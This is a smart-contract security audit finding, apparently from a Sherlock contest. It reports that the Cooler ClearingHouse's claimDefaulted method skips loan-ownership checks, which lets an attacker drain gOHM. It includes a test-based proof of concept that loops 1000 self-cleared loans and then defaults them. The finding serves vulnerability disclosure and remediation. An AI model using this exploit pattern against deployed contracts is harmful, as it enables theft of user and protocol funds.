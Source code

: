 Jovial Oily Beetle

high

# Unverified Loan Ownership in claimDefaulted Method Allows gOHM Drain
## Summary
The `claimDefaulted` method in the `ClearingHouse` contract does not validate the ownership of loans, allowing an attacker to default their own loans. The primary risk arises when the `ClearingHouse` generates OHM rewards based on the defaulted loan amount. If an attacker crafts a loan using tokens they've created, they can exploit this vulnerability to drain the `gOHM ` balance of the `ClearingHouse`.

## Vulnerability Detail
The `claimDefaulted` function in the `ClearingHouse` contract is designed to handle defaulted loans. However, it lacks a crucial check to verify if the provided loans are genuinely owned by the `ClearingHouse`. An attacker can exploit this oversight by calling the `claimDefaulted `method with their own loans as arguments.

The threat can be extended if the attacker has created a loan using tokens they've created themselves, since the `ClearingHouse` calculates `gOHM` rewards based on the loan amount By defaulting such a loan, they can trick the `ClearingHouse` into generating a large amount of `gOHM` rewards, effectively draining `gOHM` from the contract.

POC:
```javascript
    function test_DrainClearingHouse() public {
        //test setUp
        gohm.mint(address(clearinghouse), 100e18);
        ohm.mint(address(clearinghouse), 1_900e18);
        uint256 clearingHouseBalanceBefore = gohm.balanceOf(address(clearinghouse));
        MockERC20 token0 = new MockERC20("token0", "TK0", 18);
        MockERC20 token1 = new MockERC20("token1", "TK1", 18);
        address attacker = address(0x689);
        token0.mint(attacker, 2_000e18);
        token1.mint(attacker, 2_000e18);
        
        vm.startPrank(attacker);
        // Create a cooler for the attacker.
        Cooler attackerCooler = Cooler(factory.generateCooler(token0, token1));

        //Approve 2_000 worth of token0 to the attacker cooler as a collateral.
        token0.approve(address(attackerCooler), 2_000e18);
        //The attacker approves the debt value of 2_000 worth of token1 to the cooler to clear his own loan requests.
        token1.approve(address(attackerCooler), 2_000e18);
        //Attacker will create as many loans as possible in order to drain the contract.
        uint256 loansCount = 1000;
        uint256[] memory loanIds = new uint[](loansCount);
        address[] memory coolers = new address[](loansCount);
        for (uint256 i=0; i < loansCount; i++)
        {
            //The attacker request a loan with an interest of 0% and a duration of 0 second.
            uint256 reqId = attackerCooler.requestLoan(2e18, 0, 1e18, 0);
            //The attacker clears his own loan.
            loanIds[i] = attackerCooler.clearRequest(reqId, true, false);
            coolers[i] = address(attackerCooler);
        }
        // Wait for one week to generate the maximum reward
        skip(1 weeks);

        // Attack by defaulting the loans through the clearinghouse 
        clearinghouse.claimDefaulted(coolers, loanIds);
        
        vm.stopPrank();
        assertEq(gohm.balanceOf(address(clearinghouse)), 0);
        assertEq(gohm.balanceOf(attacker), clearingHouseBalanceBefore);
    }
```
## Impact
The `ClearingHouse` can be drained of gOHM, leading to huge financial losses.

## Code Snippet
https://github.com/sherlock-audit/2023-08-cooler/blob/main/Cooler/src/Clearinghouse.sol#L191-L245
## Tool used

Manual Review

## Recommendation
Implement a check in the `claimDefaulted` method to verify that the provided loans are genuinely owned by the `ClearingHouse`.